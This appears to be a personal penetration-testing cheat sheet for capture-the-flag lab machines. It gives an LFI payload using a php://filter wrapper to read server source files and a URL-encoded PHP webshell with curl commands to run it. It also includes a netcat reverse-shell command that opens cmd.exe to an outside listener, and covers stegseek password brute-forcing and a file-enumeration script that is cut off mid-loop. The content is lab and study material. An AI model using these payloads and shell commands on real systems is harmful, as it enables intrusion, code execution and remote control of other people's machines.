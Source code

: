 #### PHP site
LFI with php filter
if `?view=` or anything similar is the url like `10.10.146.118/dev/index.html?view=` use php filter in url:
- `10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\index.html`
	- copy output into base64 to see if there is code that can't be seen on view-source:
fuzz for php files
```
feroxbuster -u http://10.10.220.22/dev/ -x php
```
- if found, php filter to view them like above `http://10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\db.php`
	- know it's `C:\xampp\htdocs\dev` filepath because IP shows XAMPP server and that is the default directory

php webshell (URL encoded)
```
%3C?php%20system($_REQUEST%5B'cmd'%5D);%20?%3E
```
- go to cyberchef and URL decode to get normal text (careful, breaks obsidian)
- save as file named shell.php
	- upload as file to directory on server with web info (thru smb share maybe)
- run command:
```
curl school.flight.htb/styles/shell.php?cmd=whoami
```
- should get response like "flight\svc_apache"

turn webshell into regular shell:
- upload nc64.exe if windows
```
rlwrap -cAr nc -lnvp 443
```
- start listener
```
curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.172 443'
```
- runs nc64.exe targeting listener

---
#### Downloaded Files
if png, run `strings`
if jpg, try `strings` or bruteforce with stegseek
```
stegseek image.jpg /usr/share/wordlists/rockyou.txt
```

if files on website, use `exiftool` to check for creator usernames or other metadata
```
exiftool 2020-01-01-upload.pdf
```

if downloaded files from website have standard name like `2020-15-15-upload.pdf`, script to enumerate other potential files:
```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
```